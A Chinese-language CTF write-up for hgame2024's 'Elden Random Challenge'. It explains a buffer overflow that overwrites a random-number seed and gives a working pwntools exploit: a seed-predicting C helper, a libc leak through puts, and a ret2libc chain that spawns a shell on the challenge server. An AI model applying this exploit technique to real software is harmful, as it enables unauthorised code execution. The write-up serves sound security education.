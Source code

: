 ```yaml
---
title: hgame2024 week1 - Elden Random Challenge
date: 2024/2/6 17:21:00
updated: 2024/7/25 12:34:56
tags:
    - buffer overflow
    - result predicting
excerpt: 通过缓冲区溢出控制随机数生成器，实现ret2libc攻击以获取系统权限。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

`buf`是10字节，但读入18字节，因此可以溢出到`seed`，以此控制random的结果，如改为0。
编写c程序，模拟99次应该输入的数据，接着打ret2libc即可

## EXPLOIT

```c
// randint.c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    srand(0);
    for (int i = 0; i < 99; i++) {
        int randint = rand() % 100 + 1;
        printf("%d\n", randint);
    }
    return 0;
}
```

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./random')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 31193)
        libc = ELF('./libc.so.6')
    elf = ELF('./random')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    popRdiAddr = 0x401423
    myreadAddr = elf.symbols['myread']

    probe = process('./randint')
    nums = []
    for i in range(99):
        nums.append(probe.recvline(False))
    probe.close()

    sh.send(b'RocketDev\0' + p64(0)) # write seed to 0
    for i in range(99):
        sh.recvuntil(b'ber:')
        sh.send(p64(int(nums[i])))
    sh.recvuntil(b'mind.\n')

    # payload 1, leak libc
    sh.sendline(b'0'*0x38 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(myreadAddr))

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    shstrAddr = libcBase + next(libc.search(b'/bin/sh'))
    systemAddr = libcBase + libc.symbols['system']
    retAddr = 0x401286
    sleep(0.5)

    # payload 2, invoke system
    sh.sendline(b'0'*0x38 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

    sh.interactive()
```
